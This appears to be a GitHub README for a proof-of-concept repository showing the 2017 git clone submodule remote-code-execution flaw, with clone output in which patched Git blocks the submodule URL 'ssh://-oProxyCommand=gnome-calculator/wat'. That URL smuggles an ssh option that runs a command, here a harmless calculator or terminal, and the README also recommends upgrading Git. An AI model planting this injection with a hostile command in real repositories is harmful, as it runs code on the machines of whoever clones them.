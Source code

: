 # Git clone RCE

This repo is an example of `git clone` vulnerability described in http://blog.recurity-labs.com/2017-08-10/scm-vulns

To see it in action, simply clone the repo using:
```
git clone git@github.com:disconnect3d/git_clone_rce_calc.git --recursive
```
The recursive part is crucial as git **must** try to clone the malicious git submodule url.
This will launch a `gnome-terminal` on your machine.

To be safe - upgrade to Git 2.14.1 as stated in [git's release notes](https://raw.githubusercontent.com/git/git/master/Documentation/RelNotes/2.14.1.txt).

After updating the issue is gone:
```
$ git clone git@github.com:disconnect3d/git_clone_rce_calc.git --recursive
Cloning into 'git_clone_rce_calc'...
remote: Counting objects: 15, done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 15 (delta 3), reused 3 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (3/3), done.
Checking connectivity... done.
Submodule 'git_calc_rce' (ssh://-oProxyCommand=gnome-calculator/wat) registered for path 'git_calc_rce'
Cloning into 'git_calc_rce'...
fatal: strange hostname '-oProxyCommand=gnome-calculator' blocked
fatal: clone of 'ssh://-oProxyCommand=gnome-calculator/wat' into submodule path 'git_calc_rce' failed
```
